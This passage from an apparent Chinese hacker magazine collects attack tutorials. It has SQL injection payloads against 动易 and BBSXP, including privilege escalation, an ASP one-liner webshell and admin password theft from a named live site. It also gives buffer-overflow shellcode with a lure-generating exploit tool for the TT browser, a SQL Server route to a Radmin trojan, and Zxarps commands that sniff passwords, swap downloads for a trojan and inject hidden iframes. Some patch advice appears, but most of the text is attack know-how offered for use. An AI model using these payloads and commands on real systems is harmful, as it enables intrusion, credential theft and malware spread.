ModuleName 参数是直接 `Trim(Request("ModuleName"))` 取得的，没有进行任何过滤。然后在第 52 行对 ModuleName 进行了一些判断，不过没有对 ModuleName 的值进行任何改变，就在第 85 行或者 87 行进入了数据库操作。

我们只要构造合适的 ChannelID，就可以保证我们构造的 ModuleName 进入数据库查询。这个位置好像是字符型的，可事实上，这个位置应该是数字型的注入。

我们构造如下的语句：`newcomment.asp?ChannelID=1&ModuleName=Article A on C.InfoID=A.ArticleID where A.ChannelID=1 and user>0--`。这样在 MSSQL 的动易中，我们就可以爆出当前数据库的名称来。

具体 MSSQL 的注入得到权限的方法，在此就不细表了，留给各位读者自己动手。下面说说这个漏洞的修补方法，方法很简单，找到以下代码：

```asp
Select Case ModuleName
Case "Article"
    ModuleId = 1
Case "Soft"
    ModuleId = 2
Case "Photo"
    ModuleId = 3
Case "Product"
    ModuleId = 5
End Select
```

将其更改成：

```asp
Select Case ModuleName
Case "Article"
    ModuleId = 1
Case "Soft"
    ModuleId = 2
Case "Photo"
    ModuleId = 3
Case "Product"
    ModuleId = 5
Case Else
    ModuleName = "Article"
End Select
```

## 漏洞二、网站 API 接口注入漏洞

`api/API_Response.asp` 文件存在着一个比较隐蔽的注入漏洞，当然这经过分析一样可以进行利用。而且在 ACCESS 版本中一样可行。我们来进一步分析，首先看看 `api/API_Response.asp` 文件的前几行是怎么得到参数的。

```asp
sPE_items(conSysKey,1) = Trim(Request.QueryString(sPE_items(conSysKey,0)))
sPE_items(conUsername,1) = Trim(Request.QueryString(sPE_items(conUserName,0)))
sPE_items(conPassword,1) = Trim(Request.QueryString(sPE_items(conPassword,0)))
sPE_items(conSavecookie,1) = Trim(Request.QueryString(sPE_items(conSavecookie,0)))
```

大家可能会看糊涂，呵呵，其实我第一次也没看懂这是怎么回事，不过大家看看它们包含的 `api/API_Function.asp` 文件也就明白了，简短的代码如下：

```asp
Const conUsername = 5
Redim sPE_items(30,1)
sPE_items(5,0) = "username"
sPE_items(5,1) = ""
```

然后代入到我们上面的代码后，上面的代码就可变成了：

```asp
sPE_items(conSysKey,1) = Trim(Request.QueryString("syskey"))
sPE_items(conUsername,1) = Trim(Request.QueryString("UserName"))
sPE_items(conPassword,1) = Trim(Request.QueryString("Password"))
sPE_items(conSavecookie,1) = Trim(Request.QueryString("conSavecookie"))
```

呵呵，现在大家就明白了吧，这些参数都是完全没有过滤的。然后在第 59 行中，我们会看到如下的代码：

```asp
Conn.Execute("UPDATE PE_User Set LastPassword='" & strRndPass & "',LastLoginIP='" & UserTrueIP & "',LastLoginTime='" & sPE_Now & "' ... WHERE UserName='" & sPE_items(conUsername,1) & "' ...")
```

直接进入数据库了！当然，我们还要看要执行到这一个代码，还有别的什么限制没有。第 38 行开始的代码如下：

```asp
If Not CheckSysKey(sPE_items(conUsername,1), sPE_items(conSysKey,1)) Then
    Exit Sub
End If
```

而 CheckSysKey 过程在第 521 行，我只选两句重要的代码列出来。

```asp
CheckSysKey(iName,iSysKey)
strPEKey = Md5(iName & API_Key,16)
If Lcase(iSysKey) = Lcase(strPEKey) Then
    CheckSysKey = True
```

我们的目的就是要 CheckSysKey 过程返回 true，这样就能让代码顺利执行下去了。所以我们要满足的条件是 UserName 参数的值加上 API_Key 变量值的 MD5 16 位加密后要和我们的 syskey 一样，否则代码就不会执行下去。

API_Key 在动易里面的默认值为“API_TEST”，所以如果我们要构造 `username=admin' and user>0--`，那么我们的 syskey 就应该为 `admin' and user>0--API_TEST` 的 16 位 MD5 加密字符串，因此我们就构造如下语句进行测试：`API_Response.asp?savecookie=1&password=123456&syskey=...&username=admin' and user>0--`，这样就可以得到当前用户名了。

现在我来讲讲怎么修补这个漏洞。我们直接在得到参数那里，进行一下单引号的检测就行了。

```asp
Replace("'", "")
sPE_items(conSysKey,1) = Trim(Replace(Request.QueryString(sPE_items(conSysKey,0)),"'",""))
sPE_items(conUsername,1) = Trim(Replace(Request.QueryString(sPE_items(conUserName,0)),"'",""))
sPE_items(conPassword,1) = Trim(Replace(Request.QueryString(sPE_items(conPassword,0)),"'",""))
sPE_items(conSavecookie,1) = Trim(Replace(Request.QueryString(sPE_items(conSavecookie,0)),"'",""))
```

然后再修改 `api/API_Config.asp` 里面 API_Key 的默认值，就可以有效地防止这个文件的 MSSQL 注入了。

## 漏洞三、count/counter.asp

此文件也存在多个注入漏洞，但是此漏洞利用不广，因为这个统计的东西是动易网站的组件，很少有用户使用动易自带的这个功能。不过既然说了这么多了，还是简单地讲讲。来看一下第 343 行开始的代码：

```vb
Sub AddNum(Data,TableName,CompareField,AddField)
  ...
  conn.counter.execute "update "&TableName&" set ["&AddField&"]=["&AddField&"]+1 where "&CompareField&"='"&Data&"'"
  ...
End Sub
```

```vb
ServerVariables("REMOTE_ADDR")
If session("IPLock") Then
  session("IPLock") = CheckIPLock(LockIPType, "LockIP", UserTrueIP)
End If
If session("IPLock") = True Then
  Response.Write "对不起，您的IP(" & UserTrueIP & ")被系统限制。"
  Response.End
End If
```

AddNum 过程中使用到的参数一个也没有过滤就直接放进数据库，我们再来看看哪些地方调用了这个函数呢？从第 293 行的代码开始：

```vb
If VisitorKeyword<>"" And FoundInArr(...)
  VisitorKeyword=FindKeyStr(Request.QueryString("Referer"))
  ...
  AddNum VisitorKeyword,"PE_StatKeyword","Keyword",1
End If
...
AddNum CurrentIP,"PE_StatWeek","I_Week",...
```

UserTrueIP 就这么直接得到了，动易的编写者似乎没有想到 `Request.ServerVariables` 这一类的东西都是可以直接伪造的，比如现在的 `Request.ServerVariables("HTTP_X_FORWARDED_FOR")` 就是可以伪造的。

在 `Inc\function.asp` 文件第 544 行及 `API\API_Response.asp` 第 59 行中，`Conn.Execute` 更新用户登录 IP 与登录次数，均直接拼接 `UserTrueIP`。这两个地方都可以修改 HTTP 头注入，只要在数据包中加入 `X_FORWARDED_FOR` 即可。

这个过程被调用了几十次，而其中大部分的代码也没有经过过滤。我简略看了下，有 `Referer=Request.QueryString("Referer")` 等，因为危害不大，所以就不细说了。

下面说说这个漏洞的修补方法。找到 AddNum 过程相关代码，对 Data、TableName、CompareField、AddField 这些变量进行过滤。

## 漏洞四、伪造 IP 地址注入

我们来看 conn.asp 文件第 111 行开始的代码：

```vb
Sub IsIPLock()
  UserTrueIP = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
  If UserTrueIP = "" Then UserTrueIP = Request.ServerVariables("REMOTE_ADDR")
  ...
End Sub
```

下面来说说这个漏洞的修补方法。过滤 `HTTP_X_FORWARDED_FOR` 变量即可，如：`UserTrueIP=Replace(Request.ServerVariables("HTTP_X_FORWARDED_FOR"),"'","")`。

好了，关于动易最新漏洞的文章我就介绍到这儿了，至于以上漏洞的详细利用过程，就交由各位读者来完成了！

> **关键词解释：CMS**  
> CMS 是 Content Management System 的缩写，意为“内容管理系统”。

> **关键词解释：过滤**  
> 在漏洞分析类文章里常见“过滤”一词，指对输入数据进行规则处理（如 Replace、CInt 等）以降低风险。

> **编者点评**  
> 文字核心精炼，读者可据此理解漏洞思路与修补方向。

## 挑战 VISTA 的时代

## 黑客 PK UAC

微软操作系统最新主打产品 VISTA 于 11 月 30 日在北京正式发布，这标志着 Windows VISTA 时代正式来临。对黑客而言，最关心的当然莫过于 Windows VISTA 的安全特性。而提到 Windows VISTA 的安全性能就不得不想到创新安全机制——UAC，UAC 真的像传说中的那么“神奇可怕”吗？

### 一、UAC 是什么

UAC，即用户账户控制（User Account Control），是 Windows VISTA 最标志性的安全特性。它会在用户进行重要系统设置、运行程序或安装软件等影响系统安全/稳定的操作时弹出提示对话框，要求用户确认后才能继续操作；提示期间仅可在 UAC 窗口内操作，以防后台恶意行为。

在 Windows XP/Server 2003 时代，微软倡导以标准用户日常工作、尽量避免管理员权限；在 VISTA 中这一理念通过 UAC 机制真正落地。即使用户属于 Administrators 组，默认也仅以标准权限运行，涉及安装软件、新建用户、访问系统目录（如 `C:\Documents and Settings`）等“越权操作”时，仍需 UAC 同意。

```bash
net user pcd 123 /add
net localgroup administrators pcd /add
```

在旧系统中上述命令可直接创建并提权用户；而在 VISTA 中会报“拒绝访问”等权限错误，体现了 UAC 的拦截作用。用户上网时遭遇网页木马或恶意插件，也不再容易在后台静默安装运行，除非其能突破 UAC 限制并获得管理员权限。

### 二、黑客 PK UAC

文中通过实验说明：在 VISTA 上安装 SQL Server 2000 并打 SP4 补丁后，配合数据库存储过程漏洞，在另一台 Windows XP 主机上使用 SQLTools.exe 连接目标 VISTA 数据库，可尝试执行系统命令创建用户（如 `net user pcd pcd /add`），并进一步借助“提升到管理员组”等方式完成权限提升。

随后可通过远程管理软件（如 RADMIN）配合文件上传功能，将 `Radmin.exe` 上传至目标 `C:\Windows\System32` 目录，以实现后续控制。文中配有相关命令执行与上传界面截图作为示例。

可以看到，文件成功上传。接下来，回到 SQLTools 执行命令窗口，利用命令行运行木马文件 Radmin.exe，文件执行成功，服务、进程都可以成功创建。利用 Radmin 客户端连接，执行远程 Telnet，打开命令行窗口，再建立一个用户 hackerxfiles，同样可以，如图 4。当然，远程传输文件、屏幕监控也都没有问题。

图 4

整个测试操作过程中，Windows VISTA 的用户账户控制 UAC 机制一直处于正常的运行监控状态。看到这里，菜鸟们高兴了吧！执行了这么多操作，UAC 连一点反应都没有，看来微软的创新安全机制也不过如此而已！

### 三、原理解析

其实，这不是用户安全机制 UAC 的错！原因在于用户自己赋予了黑客上述行为操作的最高管理员权限。回想一下吧！

想安装 SQL Server 2000，必须征得用户保护机制 UAC 的通过，通过后才可以提升当前标准用户权限为最高管理员权限，进行程序的继续安装。安装完成后运行的 SQL Server 2000 程序同样继承了高管理权限。那么，黑客利用 SQL Server 数据库存储过程漏洞执行的命令也就自然而然地具有最高管理员权限了。随后黑客利用漏洞通过 SQLTools 上传并执行的木马文件 Radmin.exe，也就一并具有了最高权限。

毕竟，用户不可能只使用微软的裸系统完成所有的工作，微软也不可能保证用户安装的所有软件都是完美无缺的。那么，用户要安装其它的软件，这些软件肯定也会有大大小小的漏洞。黑客现在也就有多多少少的机会去入侵 VISTA 了。

> **小编点评：** 再啰嗦两句，今天浮出水面的 VISTA 系统漏洞，和软件的重要程度一样。用户防御角度的第一关卡接触便是 UAC 的安全控制。希望大家在理解漏洞、讨论安全实践还是理论考试时，都能够在实践中记忆、归纳、总结。就这次而言，本文还是相当值得推荐的。即使大多数读者还没有机会体验 VISTA，作为技术爱好者，时刻了解最新的相关知识，总是没错的。

（文章中涉及到的 SQLTools.exe 和自解压 Radmin 已收录到光盘中。）

BBSXP 是当前网上运行速度非常快、系统资源占用非常少的一个论坛，相信很多网站使用的都是这种论坛。目前，官方网站提供的最新版本仍是 BBSXP 7.0 Beta 2 版本。记得 9 月份我在《黑客 X 档案》发表过一篇关于 BBSXP 7.0 Beta 2 漏洞的文章。那篇文章主要是从 COOKIE 着手来获取管理员权限，现在看来，感觉不太完善，获取权限也没有这篇文章中来得快。今天，我就带大家一起来分析 BBSXP 7.0 Beta 2 的另一漏洞，然后再对官方网站做一次检测。

## 第一部分：漏洞分析

漏洞存在于 `setup.asp` 文件中，其 392–395 行代码如下：

```asp
sub Log(Message)  '定义 log 过程
  if Request.ServerVariables("Query_String")<>"" then
    Query_String="&"&Request.ServerVariables("Query_String")
  end if
  Conn.Execute("insert into [BBSXP Log] (UserName,IP Address,SourceAgent,http_verb,PathAndQuery,Referer,ErrDescription,POSTData,Notes) values ('" & CookieUserName & "','" & Request.ServerVariables("REMOTE_ADDR") & "','" & HTMLEncode(Request.ServerVariables("HTTP_User_AGENT")) & "','" & Request.ServerVariables("request_method") & "','" & Request.ServerVariables("server_name") & Request.ServerVariables("script_name") & "?" & Query_String & "','" & Request.ServerVariables("HTTP_REFERER") & "','" & Err_Description & "','" & Request.Form & "','" & Message & "')")
end sub
```

在上边的代码里，CookieUserName 和 `Request.ServerVariables("REMOTE_ADDR")` 等变量到底是怎么来的呢？我们一一查看。

在 `setup.asp` 第 20 行可以看到代码 `CookieUserName=Rs("UserName")`，说明 CookieUserName 是从数据库中读出来的值，所以不存在漏洞。`Request.ServerVariables("REMOTE_ADDR")`、`Request.ServerVariables("server_name")`、`Request.ServerVariables("script_name")` 这几个变量是 ASP 内置的环境变量，主要用途是读取远程 IP 地址、服务器名称和脚本名称，我们暂时也没有办法控制。`Request.ServerVariables("HTTP_User_AGENT")` 可以控制，但经过 `HTMLEncode()` 函数处理后，不好利用。Message 为从 `log()` 过程传递来的参数，不易控制。除了上面的几个外，剩下的就只有 `Request.ServerVariables("HTTP_REFERER")` 这个变量了。

> **小知识：HTTP_REFERER 变量**  
> referer 在英语里有“涉及”的意思。在这里表示“引用页”。假如我们正在百度搜索“黑客 X 档案”，通过 www.baidu.com 上某个链接来到某站点，那么，虽然你打开的是目标网站网址，可是该网站的服务器接到的 HTTP 数据包中，会包含一个 HTTP_REFERER 的消息，让其知道你是从 www.baidu.com 上过来的。

对于 BBSXP 的编程人员来说，也许觉得 `Request.ServerVariables("HTTP_REFERER")` 是非常可靠的，所以在没有经过任何安全处理的情况下，就直接提交、进入了 SQL 语句并执行。但其实 HTTP_REFERER 也是可以自定义的，这样一来，便构成了 SQL 注入。要如何伪造数据才能成功利用此漏洞呢？

我一起分析。

来看看下边这句代码 `insert into [BBSXP_Log] (UserName,IPAddress,UserAgent,HttpVerb,PathAndQuery,Referer,ErrDescription,POSTData,Notes)`。这个 `insert into` 语句要插入 9 个字段，`values` 后边跟着的 9 个变量全为字符串数据……由于 `HTTP_REFERER` 处于位置 6，要插入 9 个字段，我们必须再伪造 3 个数据……

要利用此漏洞，我们还得注意另一个地方，在 `setup.asp` 中 66-69 行代码如下：

```asp
if Request.ServerVariables("request_method")="POST" then
  http_referer=LCase(Request.ServerVariables("http_referer"))
  if instr(http_referer,"http://"&Request.ServerVariables("server_name"))=0 and instr(right(http_referer,len("login.asp")+8),"login.asp")=0 then
    error("来源错误")
  end if
end if
```

这一段代码使得所有 POST 提交的参数都必须检查 `HTTP_REFERER` 中是否包含当前网站域名……如果测试 `http://bbs.yuzi.net`，就让构造出的 `HTTP_REFERER` 包含 `bbs.yuzi.net`，测试 `http://127.0.0.1` 时也要包含 `127.0.0.1`。

为了更好地理解，我们举个例子来进行说明。查找 `Log()` 字样，发现只有两个地方可以利用，一个是 `bank.asp`（BBSXP 的社区银行），如图 1。


我们能利用的地方就是“现金转帐”功能，转一次至少要￥11……另一个地方就是 `EditPost.asp`，即“编辑帖子”功能。调用 `Log()` 过程执行的 SQL 语句如下：

```sql
insert into [BBSXP_Log](UserName,IPAddress,UserAgent,HttpVerb,PathAndQuery,Referer,ErrDescription,POSTData,Notes) values (...)
```

这个 `http://127.0.0.1/BBSXP/EditPost.asp?ThreadID=1&PostID=1` 就是我们提交的 `HTTP_REFERER`。大家可以在本地安装一个 BBSXP 后……使用 WsockExpert 抓取并构造请求。

```http
POST /BBSXP/EditPost.asp?ThreadID=1&PostID=1 HTTP/1.1
Accept: */*
Referer: http://127.0.0.1/BBSXP/EditPost.asp?ThreadID=1&PostID=1
Content-Type: application/x-www-form-urlencoded
...
Cookie: ...
content=tff&UpFileID=&Category=&Subject=tff
```

注意这里的 `Referer: http://127.0.0.1/BBSXP/EditPost.asp?ThreadID=1&PostID=1`，它就是 BBSXP 要获取的 `HTTP_REFERER` 值。把这一行改为 `Referer: http://127.0.0.1','','','')--`，存到文本文件（如 `2.txt`），命令行执行 `nc -vv 127.0.0.1 80 < 2.txt`，提示“修改帖子成功”。


下面我们就来讲讲它的利用方法……由于用户信息都在 `BBSXP_users` 表，只是通过 `UserRoleID` 区分权限。可构造语句把自己提升为管理员权限：`update BBSXP_users set UserRoleID=1 where username='sina'--`。

修改包的内容如图 5 所示。然后使用 NC 进行提交，成功提升为管理员，如图 6、图 7 所示。

## 黑客研究院


进入后台后，要得到 WEBSHELL 有两种方法。第一种在“常规设置”->“允许上传类型”内增加附件类型为 `htr`，如图 9 所示。

然后去前台发帖，将一个 asp 木马的扩展名改为 `htr` 并当做附件上传即可。如果对方服务器 IIS 应用程序映射中去掉了 `htr`，那我们可以采用 log 备份的方法。从后台的“主机环境变量”中，我们可以得到网站的物理路径。这里是 `C:\Inetpub\wwwroot\`，那么我们可以改包进行 log 备份，改包代码为：

```sql
Referer: http://127.0.0.1',...（修改帖子成功）... backup log ... to disk ...
```

成功提交后，在 `C:\Inetpub\wwwroot\` 目录下会生成一个 `.asp` 文件，在浏览器中访问后，如图 10 所示。


> **小提示：** 这一段代码看着乱糟糟的，实际应逐步提取并替换 SQL 语句，核心是通过 Referer 注入并触发日志备份写入。文中还提示可从 NBSI、xiaoli 等路径利用方式中验证，最终将恶意语句写入目标路径。

上面插入的一句话木马是 `<%Execute(request("a"))%>`，利用客户端，轻松上传 ASP 马，如图 11、12 所示。


同样地，我们再次修改包为 `Referer: http://127.0.0.1',...`，`update BBSXP_sitesettings set adminpassword=(select userpass from BBSXP_users where username='sina')`。提交后即可将后台管理密码设为 `sina` 的密码。NC 提交后，我们成功登录后台，如图 8 所示。


## 第二部分：检测官方网站

打开官方网站，注册一个用户（示例为 `sina147`），通过站内功能与抓包思路获取管理员用户名与相关信息，文中示例提到管理员用户名为 `yuzi`（如图 13）。


```sql
update BBSXP_users
set UserMail=(select userpass from BBSXP_users where username='yuzi')
where username='sina147'
```

> **注意：** Referer 的 URL 需要按目标站点正确填写（示例为 `http://bbs.yuzi.net`），否则可能失败。

随后通过邮箱拿到 md5 串并进行解密，得到明文密码后继续替换提交，进一步读取后台管理员密码相关字段。

```sql
update BBSXP_users
set UserMail=(select top 1 adminpassword from BBSXP_sitesettings)
where username='sina147'
```

提交后获得后台密码 md5，解密后可登录后台（如图 14）。


进入主机环境变量页面，获得物理路径（示例为 `D:\www\bbs.yuzi.net\Admin_other.asp`），即可进行后续利用（如图 15、图 16）。

`net\Admin_other.asp` 路径确认后可继续 LOG 与提权操作。


至此检测过程结束，文中指出该漏洞影响较严重，建议及时修补。

## 三、修补漏洞

```asp
' 在 Setup.asp 第394行附近
Request.ServerVariables("HTTP_REFERER")
' 用 Replace(Replace(...)) 方式过滤替换
```

> **关键词解释：ASP 内置环境变量**  
> 例如 `Request.ServerVariables("REMOTE_ADDR")`、`Request.ServerVariables("script_name")` 等，用于获取请求来源与脚本路径信息。

```asp
<%
Response.Write Request.ServerVariables("script_name")
%>
```

建议新手查询 `Request.ServerVariables` 的完整资料，以便理解本文步骤。

> **小编点评：** 本文偏实战分析，包含手工与半工具化思路；对新手有一定难度，但具有参考价值。

> 讲解：希望有兴趣的朋友努力去理解一下，一定可以学会的。其实我真正地对腾讯木马门，也就是从 BBSXP 开始的……（顶部大段按语）
>
> （文章中涉及到的 nc.exe、NBSI 3.0 xiaolu 增强版、一句话木马客户端已收录至光盘中）


## 腾讯 TT 最新漏洞也曝光

聂无言

今年年初，幻影旅团公布了腾讯 QQ 的一个远程溢出漏洞，在《黑客 X 档案》07 年第 2 期上也已经详细地介绍过了该漏洞的利用方法。由于国内使用腾讯 QQ 的用户实在是太多了，因此这个漏洞的危害性是很严重的。正因为如此，腾讯的其它软件也引起了我的关注。

在腾讯的软件中，除了即时通讯软件 QQ 及 TM 外，还有 TTraveler（简称 TT），这是腾讯推出的一个浏览器……我费了好几天的时间重新研究了一下 TT 的最新版本，结果重新发现了一个新的安全漏洞。

先来看一下腾讯 TT 浏览器的这个漏洞。当我们安装完 TT 后，会发现它有一个叫“旋风下载”的下载插件，这个插件很类似于加速下载器……如图 1。


图 1

如果我们选择使用“旋风下载”的话，会弹出来一个对话框，让我们选择“打开”“保存”或者是“取消”……临时文件名就是要下载文件本身的文件名。

问题就出在这里。我们都知道 Windows 下的文件命名规则是文件名长度必须在 256 个字符以内……可 TT 的下载插件“旋风下载”在传递文件名参数的时候竟然是使用了 260 个字符的长度（0x104）。

看了以上的分析，想必大家对于 TT 的这个溢出漏洞都有了一定的了解了吧。我们来想法子测试一下……根据我调试的结果，我们可以使用 `jmp ebx` 的方法来替代 `jmp esp`，获得执行 shellcode 的机会。


图 2

来分析一下 shellcode 的编码问题，下边是一个简单的打开命令执行窗口的一段 shellcode：

```asm
0x8B 0xE5            /* mov esp, ebp */
0x56                 /* push ebp */
0x8B 0xEC            /* mov ebp, esp */
0x83 0xEC 0x0C       /* sub esp, 0000000C */
0xB8 0x63 0x6F 0x6D 0x6D  /* mov eax, 6D6F6D63 */
0x89 0x45 0xFC       /* mov dword ptr [ebp-0C], eax */
0xB8 0x61 0x6E 0x64 0x2E  /* mov eax, 2E646E61 */
0x89 0x45 0xF8       /* mov dword ptr [ebp-08], eax */
0xB8 0x63 0x6F 0x00 0x22  /* mov eax, 22006F63 */
0x89 0x45 0xF4       /* mov dword ptr [ebp-04], eax */
0x33 0xD2            /* xor edx, edx */
0x88 0x55 0xFF       /* mov byte ptr [ebp-01], dl */
0x8D 0x45 0xF4       /* lea eax, dword ptr [ebp-0C] */
0x50                 /* push eax */
0xB8 0x24 0x98 0x22 0x78  /* mov eax, 78229824 system地址 */
0xFF 0xD0            /* call eax */
```

在上边的 shellcode 中，后边的汇编语句为前边机器码的解释。我们发现有两个地方出现了“非法字符”……为了让这个字符能够赋值给 eax，我们变通一下，利用 xor 语句来实现间接赋值。首先 `mov eax, 2F6D6F63`……这里必须要绕个弯子，因为如果只是为了改变 2F，那么其它数字应该与 0 异或；但是 0 是绝对不能出现在这里的，因为它会截断 shellcode……


让我们来修改返回地址，让它溢出后执行我们的 shellcode。我在 `ws2_32.dll` 里找了一个 `jmp ebx` 的语句地址为 `0x71a2773b`……保存成 html 文件后使用 TT 浏览器打开，点击下载，选择“旋风下载”，再点“打开”，出现 CMD 窗口即溢出成功，如图 3。

其实，我们利用“保存”选项也能触发这个漏洞。为方便读者，我编写了漏洞利用工具 `TTexploit.exe`。双击后在“当前登录用户名”栏填入登录用户名（如 `administrator`），点击“生成”即可自动生成 `TTexploit.htm`，挂到网页或通过 QQ 发送后诱导访问即可。

> 小编点评：上期杂志中我们刚刚介绍了腾讯 QQ 远程溢出漏洞的利用……本文作者给出了较完整的漏洞分析思路与写法，并提醒在利用中应注意 shellcode 选择与替换。

## 局域网攻击的无敌利器 Zxarps

黑侠（Black Mask）


在 06 年 12 期“将黑防变成大力水手的秘密”一文刊登后，网上关于 ARP 攻击掀起热潮。继 Arpspoof 源代码后又出现了功能更强的 Zxarps。若说 Arpspoof 只能单点攻击，那么 Zxarps 可在局域网中同时攻击多人，显著增强了实战能力。

尽管 Arpspoof 和 Zxarps 都基于 ARP 欺骗原理并可工作于交换机或路由模式下，但 Zxarps 还可修改 UDP 报文（如 DNS 欺骗）、限制对方带宽、在任意网页顶端插码以及自定义关键字嗅探等。

## 一、参数介绍

使用 Zxarps 前需先安装 WinPcap 驱动。随后在 CMD 下运行 `zxarps` 查看参数。第一个显示项为“0. Load Balancing & Failover software from FalconStor Software …”，后面跟本机网卡 IP 和网关信息，用于让多网卡电脑正确选择网卡。

一条命令中都会使用到，所以一定要记好了。


## 二、嗅探功能

打开 CMD，切换到 `zxarps.exe` 所在的目录，输入命令：

```bash
zxarps.exe -idx 0 -ip 192.168.1.2-192.168.1.11 -port 8080 -save_h sniff.log
```


- `-idx 0` 表示使用索引号为 0 的网卡。
- `-ip 192.168.1.2-192.168.1.11` 表示目标 IP 范围。
- `-port 8080` 表示只关心 8080 端口数据（实际可改为 80 或 21）。
- `-save_h sniff.log` 表示以 hex（十六进制）方式写入 `sniff.log`。

运行该命令时，Zxarps 会显示本机 IP、MAC 与网关等信息，并扫描网段中的存活主机。从图 2 可以看出仅有 `192.168.1.1` 和 `192.168.1.11` 在线，这两台主机发往 8080 端口的数据会被保存。


按 `Ctrl+C` 停止嗅探，打开 D 盘 `sniff.log` 查看记录信息，如图 4。


原来是 `192.168.1.11` 访问 `192.168.1.1:8080` 端口的全部数据。这条命令只能嗅探内网访问内网 HTTP 的信息，实用性有限；若要捕获敏感信息，还需增加过滤规则。

## 三、批量嗅探 HTTP（网页）密码

我们把命令改成下面的形式：

```bash
zxarps.exe -idx 0 -ip 192.168.1.2-192.168.1.50 -port 80 -logfilter "+POST,+username,+password" -save_a sniff2.log
```

- `-logfilter "+POST,+username,+password"`：仅保存包含 POST、username、password 字样的数据包。
- `-save_a sniff2.log`：使用 ASCII 方式保存记录，便于阅读。

该命令可监听 `192.168.1.2` 到 `192.168.1.50` 范围内主机的 80 端口数据；当数据同时出现 POST、username、password 时就记录下来，即可抓取网页表单中的用户名与密码等敏感信息。


## 四、批量嗅探 FTP 密码

命令格式如下：

```bash
zxarps.exe -idx 0 -ip 192.168.1.2-192.168.1.50 -port 21,2121 -spoofmode 2 -logfilter "_USER,_PASS" -save_a sniff.log
```

- `-port 21,2121`：监听 21 和 2121 端口数据。
- `-spoofmode 2`：指定欺骗模式（2 为欺骗目标主机）。
- `-logfilter "_USER,_PASS"`：以下划线分隔关键词，只要出现 USER 或 PASS 即记录。


## 黑客研究院

写成 `-logfilter "+USER,+PASS"`，那么必须 USER 和 PASS 这两个词语同时出现，该数据才被记录。

本次嗅探的效果及记录的内容如图 7、图 8 所示。我们可以使用“|”添加嗅探条件，这样可以同时嗅探 FTP 和 HTTP 的敏感关键字，演示命令如下：

```bash
zxarps.exe -idx 0 -ip 192.168.1.2-192.168.1.50 -port 80,21 -logfilter "+POST,+user,+pass,_USER,_PASS" -save_a sniff.log
```

> 命令解释如下：

- `-postfix ".exe,.rar,.zip"` 表示嗅探各类输入的数据包，当发现 exe、rar、zip 格式的文件下载动作时，将连接转到我们指定的网站文件上去。
- `-hackurl` 表示要诱骗到哪个网址去。
- `-filename 123.exe` 表示欺骗的文件名。

本命令实现的效果就是当网吧里有人下载 exe、rar 或者 zip 文件时，就将其诱骗到 `http://192.168.1.4/` 上下载 123.exe。这个 123.exe 正是我们刚才配置好的 PcShare 木马，如图 12。

## 五、随心所欲篡改别人下载的文件

很多人在网吧里都会下载一些文件，zxarps 可以在监视到别人下载文件的时候，诱骗对方去下载我们指定的文件。这样一来，本来对方是想去下载一个“跑跑卡丁车”外挂的，我们便让他下载到电脑上的变成了一个配置好的木马。当对方毫无戒心地运行“跑跑卡丁车”外挂时，就已经变成了我们的肉鸡！


### 1. 配置木马

我个人比较喜欢使用 PcShare，本机的当前 IP 地址是 192.168.1.4，设置的自动上线端口为 81。对于服务端的配置大家可以参照如图 9 所示的界面。点“生成”后就 OK 了，我将马儿保存为 123.exe，就算大功告成。


如果被骗者不仔细看下载来的文件，运行后就会中我们的木马，进而你就变成人上人了。不过，本命令只选择 HTTP 状态为 302 的数据包，具体的 302 代表什么意思我就不说了。我们来举个例子。

如果网吧里有人下载 `http://www.hackerxfiles.net/test.rar`，那么我们的工具并不会去替换它的信息。  
如果网吧里有人访问 `http://www.hackerxfiles.net/a.php?id=1`，然后 `http://www.hackerxfiles.net/a.php` 会将访问重定向到 `http://www.hackerxfiles.net/asdf.rar`，这个时候，我们的工具会抢先一步，把 `http://www.hackerxfiles.net/asdf.rar` 改成 `http://192.168.1.4/123.exe`，受骗者就会下载我们配置好的木马了。

### 2. 配置网页木马

打开 MS06014 免杀网页生成器，输入网址 `http://192.168.1.4/123.cxc`，点击“生成”，然后我将生成的网页木马文件保存为 `xtaflf.html`，如图 10。

### 3. 架设 HTTP 服务器

PcShare 和网页木马都配置好了，我们再在本地架设一个 HTTP 服务器，它们就可以正常工作了。运行“HTTP 傻瓜服务器”，将服务目录指定在 `F:\123` 目录下，再将网页木马和 PcShare 的服务端都复制过去，如图 11。

### 4. 横扫网吧

```bash
zxarps.exe -idx 0 -ip 192.168.1.2-192.168.1.50 -spoofmode 3 -postfix ".exe,.rar,.zip" -hackurl http://192.168.1.4/ -filename 123.exe
```


## 六、网吧批量插马

刚才做好了网页木马，现在我们要做的就是让网吧每一个上网的人，访问的每一个网页里，都插入这个网页木马。命令如下：

```bash
zxarps.exe -idx 0 -ip 192.168.1.2-192.168.1.50 -port 80 -insert "<iframe src='http://192.168.1.4/xtaflf.html' width=0 height=0>"
```


这条命令的作用是，当被欺骗的每台电脑在浏览任何网站时，都会在浏览的那个网页文件中自动插入 `<iframe src='http://192.168.1.4/xtaflf.html' width=0 height=0>` 这段代码。

可真是令人防不胜防呀，不中马才怪呢。

## 七、其它功能

### 1. “黑”掉 Google

我们输入以下命令：`zxarps.exe -idx 0 -ip 192.168.1.2-192.168.1.50 -port 80 -hacksite 64,233,167,99,www.google.com -insert "hack by Black Mask<noframes>"`。命令执行后如图 14 所示，当被欺骗电脑浏览 www.google.com 的时候，只会看到“hack by Black Mask”，如图 15。不知道的人，还以为 GOOGLE 真的被我黑掉了呢。


### 2. DNS 欺骗

命令格式如下：`zxarps.exe -idx 0 -ip 192.168.1.2-192.168.1.50 -hackdns www.google.com|192.168.1.4,www.baidu.com|192.168.1.4`。当被欺骗的主机打开 GOOGLE 或百度时都会指向 192.168.1.4，在这台主机上我们可以事先架设好木马，如图 16。


### 3. 限制带宽

宿舍里总有人使用 BT 或者电驴之类的下载软件来霸占网速，连上黑客 X 档案的论坛都很卡，是不是很烦？让我们使用 zxarp 来搞定他吧！假如 192.168.1.2 和 192.168.1.11 很讨厌，影响了我们的正常上网，那么就输入下面这条命令：`zxarps.exe -idx 0 -ip 192.168.1.2,192.168.1.11 -speed 20`。命令执行后，他们俩就只能使用 20K 的带宽了，剩下的我们自己想干啥就干啥，飞一般的网速，就是爽！

> （文中涉及到的 zxarps.exe、PcShare、MS06014 免杀网马生成器、HTTP 傻瓜服务器在光盘中已收录）


## 一、什么是 CC 攻击？

